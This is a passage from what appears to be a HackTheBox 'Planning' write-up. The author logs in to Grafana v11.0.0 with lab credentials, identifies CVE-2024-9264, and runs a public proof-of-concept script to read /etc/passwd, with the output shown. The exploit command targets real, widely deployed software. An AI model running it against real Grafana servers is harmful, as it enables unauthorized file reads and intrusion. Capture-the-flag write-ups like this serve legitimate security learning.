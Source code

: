 We are in the login page. Remember that we have `admin` / `0D5oT70Fq13EvB5r` credentials from the machine information. <br>
&rarr; Login with these credentials.

![Planning Grafana Dashboard](/assets/img/planning-htb-release-area-machine/planning-htb-release-area-machine_grafana-dashboard.png)

First thing gonna check is the version of Grafana.

![Planning Grafana Version](/assets/img/planning-htb-release-area-machine/planning-htb-release-area-machine_grafana-version.png)

It's `v11.0.0` and then searching for vulnerabilities cve. <br>
&rarr; Found out [GHSA-q99m-qcv4-fpm7](https://github.com/advisories/GHSA-q99m-qcv4-fpm7) advisory about **Grafana Command Injection And Local File Inclusion Via Sql Expressions** which leads to [CVE-2024-9264](https://nvd.nist.gov/vuln/detail/CVE-2024-9264).

### CVE-2024-9264
Searching for exploit POC and found out [CVE-2024-9264](https://github.com/nollium/CVE-2024-9264) repository. <br>
&rarr; Let's exploit it.

```bash
└─$ python3 CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -f /etc/passwd http://grafana.planning.htb/
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
